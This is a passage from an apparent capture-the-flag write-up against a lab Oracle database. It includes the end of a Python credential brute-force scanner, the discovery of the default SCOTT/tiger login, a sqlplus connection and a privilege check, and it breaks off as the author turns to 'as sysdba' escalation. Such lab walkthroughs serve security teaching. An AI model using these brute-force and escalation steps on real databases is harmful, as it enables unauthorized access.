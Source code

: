         pool = Pool(processes=nprocs)

        for username, pass_, status in pool.imap_unordered(scan, [up for up in userpass]):
            if status:
                print("Found {} / {}\n\n".format(username, pass_))
            else:
                sys.stdout.write("\r {}/{}                               ".format(username, pass_))

    if __name__ == '__main__':
        if len(sys.argv) != 3:
            usage()
        main(sys.argv[1], sys.argv[2])



Eventually, I decided to try different cases, so I wrote a couple
scripts to modify existing lists to include upper, lower, and
capitalized.

When fed that list, the scanner gives a good username / password:
`SCOTT`:`tiger`.

#### 4 - Check out the database

At this point, we can connect using sqlplus:



    root@kali# sqlplus SCOTT/tiger@10.10.10.82:1521/XE

    SQL*Plus: Release 12.2.0.1.0 Production on Thu Apr 26 08:54:27 2018

    Copyright (c) 1982, 2016, Oracle.  All rights reserved.


    Connected to:
    Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

    SQL>



Obviously the first thing we'll do it check out the database. There
isn't any data of interest.

#### 5 - db PrivEsc

Looking at the current access, SCOTT doesn't have privilege:



    SQL> select * from user_role_privs;

    USERNAME                       GRANTED_ROLE                   ADM DEF OS_
    ------------------------------ ------------------------------ --- --- ---
    SCOTT                          CONNECT                        NO  YES NO
    SCOTT                          RESOURCE                       NO  YES NO



However, if we reconned with the `as sysdba` option (think sudo for
Oracle), then we have a ton more:
